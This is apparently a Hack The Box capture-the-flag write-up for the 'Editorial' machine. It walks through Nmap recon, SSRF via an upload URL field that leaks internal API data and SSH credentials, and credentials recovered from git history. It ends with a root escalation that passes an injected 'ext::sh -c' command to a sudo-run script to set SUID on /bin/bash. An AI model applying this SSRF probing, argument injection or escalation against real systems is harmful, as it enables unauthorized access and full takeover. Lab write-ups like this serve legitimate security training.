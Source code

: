 # Editorial Write-up

<img src="https://labs.hackthebox.com/storage/avatars/a466db5ce4f7aaea98f588d1cb71a0aa.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV -p- 10.10.11.20`

    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
    |_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
    80/tcp    open     http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Editorial Tiempo Arriba
    9184/tcp  filtered unknown
    21073/tcp filtered unknown
    32061/tcp filtered unknown
    34265/tcp filtered unknown
    60547/tcp filtered unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts

`editorial.htb`

![image](https://github.com/zer00d4y/writeups/assets/128820441/07fdd17a-f5fe-47b2-b023-18ca896b2502)

`editorial.htb/upload`

![image](https://github.com/zer00d4y/writeups/assets/128820441/41e07ae5-ffed-4142-8dda-129aabe270ca)

# Exploatation

## SSRF 

Here we see signs of the SSRF's (Server-Side Request Forgery) vulnerability 

![image](https://github.com/zer00d4y/writeups/assets/128820441/c4d5cf44-7914-4f2c-ab85-042f8fec1cf3)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f756318a-78a9-4d6c-9df6-b2b89f9b9403)

`http://127.0.0.1:5000/`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0216112e-e857-48ce-ad81-2ebc7ddecb6a)

static/uploads/d93ee52f-75f2-4273-b05c-f4932c366478

![image](https://github.com/zer00d4y/writeups/assets/128820441/d613d58e-5577-43ba-85ce-bea48a5ba8b9)

    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

/api/latest/metadata/messages/authors

![image](https://github.com/zer00d4y/writeups/assets/128820441/52e8bd7a-5202-4c35-8260-4c477bed1700)

static/uploads/d1166303-dbfa-496d-b260-3f45d9b66c9a

![image](https://github.com/zer00d4y/writeups/assets/128820441/28f92595-3fe8-41cd-af0e-7441dcc57a18)

SSH credentials

`dev:dev080217_devAPI!@`

Get the user flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/a7e04a02-398a-4728-a9a2-03d4762f1c93)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/3ad2f8e3-b7e9-425b-8604-db6ca4fdcf5b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c8fe42b2-ef4e-4ed7-a9f9-2211a53b491e)

git show 1e84a036b2f33c59e2390730699a488c65643d28

    ...
    +        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    ...

SSH credentials for `Prod`

`prod:080217_Producti0n_2023!@`

![image](https://github.com/zer00d4y/writeups/assets/128820441/16e93836-bbc6-4331-a261-0026caa67669)

    echo '#!/bin/bash' > /tmp/exploit.sh 
    
    echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh  
      
    sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"  
      
    ls -l /bin/bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/74d0eb0e-1475-4172-abd1-3bea6ca23bac)

Get the root flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7c2778a-c835-49dd-9232-acb92554cb2f)

